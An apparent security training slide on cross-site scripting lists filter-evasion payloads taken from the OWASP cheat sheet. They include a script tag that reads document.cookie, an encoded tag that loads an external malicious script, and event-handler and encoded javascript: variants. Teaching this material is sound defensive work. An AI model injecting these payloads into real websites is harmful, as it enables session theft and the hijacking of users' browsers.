

# Executing JavaScript
JavaScript can be executed and encoded in many different ways
See Rsnake’s "XSS Cheat Sheet" at https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet
Simple: <script>alert(document.cookie);</script>
Encoded: %3cscript src=http://www.example.com/malicious-code.js%3e%3c/script%3e
Event handlers:
<body onload=alert('XSS')>
<b onmouseover=alert('XSS')>click me!</b>
<img src="http://url.to.file.which/not.exist" onerror=alert('XSS');>
Image tag (with UTF-8 encoding):
<img src=javascript:alert('XSS')>
<img src=j&#X41vascript:alert('XSS')>
No quotes
<img%20src=x.js onerror= alert(String(/adam/).substring(1,5) )></img>
276